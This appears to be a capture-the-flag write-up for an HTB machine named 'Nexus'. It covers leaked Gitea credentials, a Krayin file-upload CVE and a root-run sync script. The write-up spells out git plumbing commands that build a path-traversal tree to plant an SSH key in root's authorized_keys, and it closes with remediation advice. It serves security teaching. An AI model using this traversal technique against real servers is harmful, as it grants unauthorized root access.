








# Nexus

## Information

Nexus is an HTB Linux machine classified as Easy.

Notable Topics:
  - Leaked Credentials
  - Public CVE
  - Vulnerable Service
  - Vulnerable Script

## 1 Service Enumeration

Doing a full tcp port scan we can see that the machine has only two open ports 22 and 80:



At this point we can find two additional subdomains.




## 2 Foothold

The subdomain **git.nexus.htb** hosts a gitea instance. Looking at the various commits we can see that in one of them is present a plaintext password:



Browsing the main domain we can retrieve the email address **j.matthew@nexus.htb**. Using the credentials we have found together we can authenticate to the *krayin* application 
running on the subdomain **billing.nexus.htb**.



The application is vulnerable to CVE-2026-36340 which is a file upload vulnerability in the compose email functionality. Exploiting it we can obtain a webshell and 
then upgrade to a reverse shell as www-data.



Inspecting the content of the web application we can find the credentials that are actually used to connect to the database:



At this point i tried to authenticate to one of the user present on the system with this password and i got access as *jones*.

## 3 Privilege Escalation

Running a privilege escalation tool i could notice a custom timer:



As shown:
- This timer runs the **gitea-template-sync.service**. 
- The service runs the **/etc/gitea/template-sync.py** script as the root user.



At this point i thought that this was a clear escalation path from the *git* user (who has write access to the script) to *root* (who execute the script).
But reading the script it turns out is vulnerable. Leveraging the vulnerability we could avoid a lateral movement to the *git* user.
Essentially it is synchronizing gitea template repositories to the local filesystem.
It reads the filepath with a command like:

`git ls-tree -r HEAD` around lines 60-65 

and then it write to a file based on this path without validating it:

`target = os.path.join(stage_path, filepath)` on line 88

### Git Background - how Git stores files

Git stores everything as objects identified by a SHA hash:
- blob = raw file contents (no name, no permissions).
- tree = a directory listing. Each entry is a line of the form "**mode** **type** **sha**	**name**" linking a name + permissions to a blob (file) or another tree (subdirectory).
- commit = a snapshot pointing at one top-level tree, plus metadata (message, parent, author).

In everyday use these objects are built for you: **git add** creates the blob and stages the path, and the tree objects are assembled automatically when you commit. 

The filename of a file is not stored in the blob — it only exists as the name field inside a tree entry.

The command **git ls-tree -r HEAD** lists the contents of the tree at the latest commit (HEAD):
- -r = recurse into subdirectories, so it prints every file's full path rather than just top-level entries.
- Output is one line per file: **mode** **blob** **sha**	**full/path/to/file**.

### Exploitation

So at this point i created an ssh tunnel to the gitea instance running on 127.0.0.1. Logged in on Gitea with **j.matthew@nexus.htb** and the second password we have found. 
Created a new repository flagging **Make repository a template**. Then i cloned the repository locally.

Now we need to find a way to give a name to a file to make it traverse the filesystem once processed by the script.
We need to build the tree manually, because **git add** refuses to stage a path containing '..'.
So i generated an ssh keypair, then ran the following commands to assign the public key to the file **../../../../../../../../root/.ssh/authorized_keys**:

Build a Blob object from the ssh public key:

```bash
blob=$(git hash-object -w id_rsa.pub)
```

Create a tree containing the blob under the filename **authorized_keys** (100644 = mode for a non-executable file):

```bash
t=$(printf '100644 blob %s\tauthorized_keys\n' "$blob" | git mktree)
```

This command wraps the previous tree inside a new tree, as a subdirectory named **.ssh** (040000 = mode for a directory):

```bash
t=$(printf '040000 tree %s\t.ssh\n' "$t" | git mktree)
```

Now **$t = .ssh/authorized_keys**.
This command wraps the previous tree inside a new tree, as a subdirectory named root:

```bash
t=$(printf '040000 tree %s\troot\n' "$t" | git mktree)
```

Now **$t = root/.ssh/authorized_keys**.
This command wraps the previous tree 8 more times, each in a directory named `..`, producing the `../../../../../../../../` prefix:

```bash
for i in $(seq 1 8); do t=$(printf '040000 tree %s\t..\n' "$t" | git mktree); done
```

Then we commit and push:

```bash
commit=$(git commit-tree "$t" -m "update template")
git push -f origin "${commit}:refs/heads/main"
```

This should push to the remote repository the tree we built which contains the public ssh key with name **../../../../../../../../root/.ssh/authorized_keys**.
Since the script runs as root and it doesn't do any sort of input sanitization it should be able to create the file.

*Note*: this push only succeeds because the Gitea server has **receive.fsckObjects** disabled (its default). When turned on, the server runs **git fsck** on every object it receives during a push and rejects the entire push if any object is malformed. Among other checks, fsck refuses tree entries whose name is `.`/`..` or contains a path separator, so the traversal tree built above (entries named `..`) would be rejected at push time, before the sync script ever gets a chance to read it.

Indeed after few minutes we can access with the associated private key.


## 4 Remediation
- Be aware of the content of your public repositories.
- Keep applications up to date.
- Be consistent on permissions over custom scripts.
- Always validate untrusted input.
- Enable **receive.fsckObjects = true**


